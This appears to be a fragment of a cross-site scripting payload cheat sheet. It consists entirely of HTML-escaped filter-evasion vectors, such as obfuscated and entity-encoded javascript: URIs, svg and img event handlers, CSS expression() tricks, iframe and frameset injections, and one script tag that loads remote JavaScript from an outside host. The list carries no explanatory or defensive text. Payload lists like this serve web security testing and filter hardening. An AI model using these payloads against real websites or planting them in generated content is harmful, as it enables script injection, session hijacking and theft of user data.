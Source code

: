 &amp;#39;&amp;#88;&amp;#83;&amp;#83;&amp;#39;&amp;#41;&gt;
 
&lt;IMG SRC=&amp;#x6A&amp;#x61&amp;#x76&amp;#x61&amp;#x73&amp;#x63&amp;#x72&amp;#x69&amp;#x70&amp;#x74&amp;#x3A&amp;#x61&amp;#x6C&amp;#x65&amp;#x72&amp;#x74&amp;#x28&amp;#x27&amp;#x58&amp;#x53&amp;#x53&amp;#x27&amp;#x29&gt;
 
&lt;IMG SRC=”jav ascript:alert(‘XSS’);”&gt;
 
&lt;IMG SRC=”jav&amp;#x0A;ascript:alert(‘XSS’);”&gt;
 
&lt;IMG SRC=” &amp;#14;  javascript:alert(‘XSS’);”&gt;
 
&lt;&lt;SCRIPT&gt;alert(“XSS”);//&lt;&lt;/SCRIPT&gt;
 
&lt;IMG SRC=”javascript:alert(‘XSS’)”
 
&lt;/script&gt;&lt;script&gt;alert(‘XSS’);&lt;/script&gt;
 
&lt;INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”&gt;
 
&lt;BODY BACKGROUND=”javascript:alert(‘XSS’)”&gt;
 
&lt;svg/onload=alert('XSS')&gt;
 
&lt;IMG SRC=’vbscript:msgbox(“XSS”)’&gt;
 
&lt;BGSOUND SRC="javascript:alert('XSS');"&gt;
 
&lt;BR SIZE="&amp;{alert('XSS')}"&gt;
 
&lt;LINK REL="stylesheet" HREF="javascript:alert('XSS');"&gt;
 
&lt;STYLE&gt;@im\port'\ja\vasc\ript:alert("XSS")';&lt;/STYLE&gt;
 
&lt;IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))"&gt;
 
&lt;STYLE&gt;.XSS{background-image:url("javascript:alert('XSS')");}&lt;/STYLE&gt;&lt;A CLASS=XSS&gt;&lt;/A&gt;
 
&lt;STYLE type="text/css"&gt;BODY{background:url("javascript:alert('XSS')")}&lt;/STYLE&gt;
 
&lt;XSS STYLE="behavior: url(xss.htc);"&gt;
 
&lt;IFRAME SRC="javascript:alert('XSS');"&gt;&lt;/IFRAME&gt;
 
&lt;FRAMESET&gt;&lt;FRAME SRC="javascript:alert('XSS');"&gt;&lt;/FRAMESET&gt;
 
&lt;TABLE&gt;&lt;TD BACKGROUND="javascript:alert('XSS')"&gt;
 
&lt;DIV STYLE="width: expression(alert('XSS'));"&gt;
 
&lt;SCRIPT a="&gt;" SRC="httx://xss.rocks/xss.js"&gt;&lt;/SCRIPT&gt;
 
&lt;script&gt;alert(/xss/)&lt;/script&gt;
 
&lt;svg onload=alert(document.domain)&gt;
 
&lt;img src=document.domain onerror=alert(document.domain)&gt;
 
&lt;M onmouseover=alert(document.domain)&gt;M
 
&lt;marquee onscroll=alert(document.domain)&gt;
 
&lt;a href=javascript:alert(document.domain)&gt;M&lt;/a&gt;
 
